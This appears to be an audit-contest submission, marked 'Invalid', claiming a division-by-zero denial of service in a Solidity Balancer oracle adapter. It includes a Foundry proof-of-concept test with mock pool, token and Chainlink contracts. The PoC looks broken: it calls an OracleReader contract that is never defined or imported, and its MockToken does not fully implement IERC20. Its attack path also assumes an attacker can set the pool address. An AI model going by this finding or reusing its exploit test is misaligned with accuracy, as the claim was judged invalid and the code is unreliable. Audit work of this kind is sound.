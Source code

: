 Salty Concrete Gecko

Invalid

# Potential Division by Zero in _calculateFairUintPrice

### Summary

The lack of checks in the weights array will cause the transaction to revert for the users as a pool with zero weights will cause the revert.

### Root Cause

In BalancerOracleAdapter.sol:122 the loop can revert due to a division by zero prices[i].divDown(weights[i]) if any of the weights[i] is zero.

### Internal Pre-conditions

The poolAddress points to a pool where at least one of its weights is zero.



### External Pre-conditions

none

### Attack Path

The attacker deploys a pool that returns zero for one of its weights.

The attacker sets the poolAddress in the adapter to the malicious pool.

When latestRoundData is called, the division in _calculateFairUintPrice causes the transaction to revert.

### Impact

A denial of service as the oracle reverts

### PoC

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import "forge-std/Test.sol";
import {BalancerOracleAdapter} from "../BalancerOracleAdapter.sol";
import {FixedPoint} from "../lib/balancer/FixedPoint.sol";
import {IBalancerV2WeightedPool} from "../lib/balancer/IBalancerV2WeightedPool.sol";
import {Initializable} from "@openzeppelin/contracts-upgradeable/proxy/utils/Initializable.sol";
import {OwnableUpgradeable} from "@openzeppelin/contracts-upgradeable/access/OwnableUpgradeable.sol";
import {PausableUpgradeable} from "@openzeppelin/contracts-upgradeable/utils/PausableUpgradeable.sol";
import {ReentrancyGuardUpgradeable} from "@openzeppelin/contracts-upgradeable/utils/ReentrancyGuardUpgradeable.sol";
import {IERC20} from "@balancer/contracts/interfaces/contracts/solidity-utils/openzeppelin/IERC20.sol";
    import {AggregatorV3Interface} from "@chainlink/contracts/src/v0.8/shared/interfaces/AggregatorV3Interface.sol";

contract MockPool is IBalancerV2WeightedPool {

    function getNormalizedWeights() external view override returns (uint256[] memory){
      return new uint256[](2);
    }
     function getInvariant() external view override returns (uint256){
       return 1;
     }
    function getActualSupply() external view override returns (uint256){
        return 1;
      }
     function getPoolId() external view override returns (bytes32){
       return bytes32(0);
     }

       function getVault() external view override returns (address){
       return address(this);
     }


      function getPoolTokens(bytes32)  external view override returns (
        IERC20[] memory tokens,
        uint256[] memory balances,
        uint256 lastChangeBlock
    ){
        return (new IERC20[](2), new uint256[](2), 0);
    }
    function getNumTokens() external pure override returns (uint256){
        return 2;
    }

}

 contract MockToken is IERC20 {

function decimals() public view virtual override returns (uint8) {
        return 18;
    }
}

  contract MockChainlink is AggregatorV3Interface {
     function decimals() external view override returns (uint8){
      return 8;
    }
      function latestRoundData()
        external
        view
        override
        returns (uint80, int256, uint256, uint256, uint80){
          return (uint80(0), 1e8 , block.timestamp, block.timestamp, uint80(0));
        }
  }

contract DivisionByZeroTest is Test {

    BalancerOracleAdapter public oracleAdapter;
    MockPool public mockPool;
    MockToken token0;
    MockToken token1;

   address  owner;


    function setUp() public {
         owner = address(this);
        mockPool = new MockPool();
         token0 = new MockToken();
         token1 = new MockToken();

        address mockChainlink = address(new MockChainlink());

        oracleAdapter = new BalancerOracleAdapter();
        oracleAdapter.initialize(address(mockPool), 18,  address(new OracleReader()), owner);
        OracleReader(address(oracleAdapter)).setOracleFeed(address(token0),  "USD", mockChainlink);
         OracleReader(address(oracleAdapter)).setOracleFeed(address(token1),  "USD", mockChainlink);
        }

    function testDivisionByZero() public {
         vm.expectRevert();
        oracleAdapter.latestRoundData();

    }
}

### Mitigation

Check if the weight is zero before performing the division or revert the transaction if any of the values are zero.